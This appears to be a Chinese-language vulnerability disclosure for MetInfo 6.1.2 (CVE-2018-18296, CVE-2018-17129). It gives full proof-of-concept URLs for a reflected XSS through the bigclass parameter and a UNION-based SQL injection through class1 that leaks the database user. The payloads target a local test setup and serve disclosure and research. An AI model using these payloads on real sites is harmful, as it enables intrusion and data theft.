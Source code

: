 ### 漏洞简介  

|漏洞名称|上报日期|漏洞发现者|产品首页|软件链接|版本|CVE编号|
--------|--------|---------|--------|-------|----|------|
|Metinfo-6.1.2版本存在XSS漏洞&SQL注入漏洞|2018-10-12|踏月留香|[https://www.metinfo.cn/](https://www.metinfo.cn/) | [下载地址](https://www.metinfo.cn/upload/file/MetInfo6.1.2.zip) |6.1.2| [CVE-2018-18296](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-18296)/[CVE-2018-17129](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-17129)|  

#### 漏洞概述  

> 漏洞存在于MetInfo6.1.2/admin/index.php页面，由于参数bigclass过滤不严，导致XSS漏洞
本地搭建网站，首先登录网站后台:`http://172.16.141.134/MetInfo6.1.2/admin/`，登录成功后，构造payload：
`http://172.16.141.134/MetInfo6.1.2/admin/index.php?lang=cn&anyid=25&n=column&c=index&a=doadd&bigclass=1%22%3e%3cscript%3ealert(/xss/)%3c%2fscript%3e` ，即可执行跨站脚本。  

### POC实现代码如下：  

> XSS漏洞的 exp代码如下：  

``` html
http://127.0.0.1/MetInfo6.1.2/admin/index.php?lang=cn&anyid=25&n=column&c=index&a=doadd&bigclass=1%22%3e%3cscript%3ealert(/xss/)%3c%2fscript%3e
```

> SQL注入漏洞的 exp代码如下：  
> 漏洞存在于MetInfo6.1.2 `/app/system/feedback/admin/feedback_admin.class.php`页面中，由于该页面的class1参数过滤不严，导致存在SQL注入漏洞。
本地搭建网站，首先登录网站后台:`http://172.16.141.134/MetInfo6.1.2/admin/`，登录成功后，构造payload：
`http://172.16.141.134/MetInfo6.1.2/admin/index.php?lang=cn&anyid=29&n=feedback&c=feedback_admin&a=doexport&class1=-1//union//select//concat(0x3a,user(),0x3a)//from/**/information_schema.tables&met_fd_export=-1`，访问后网站会导出一个excel表，excel表的名称为数据库用户名。


``` html
http://127.0.0.1/MetInfo6.1.2/admin/index.php?lang=cn&anyid=29&n=feedback&c=feedback_admin&a=doexport&class1=-1/**/union/**/select/**/concat(0x3a,user(),0x3a)/**/from/**/information_schema.tables&met_fd_export=-1
```

### POC截图效果如下：

- XSS漏洞POC运行截图
![XSS漏洞POC运行截图](img/5.png)

- SQL注入漏洞POC运行截图
![SQL注入漏洞POC运行截图](img/6.png)

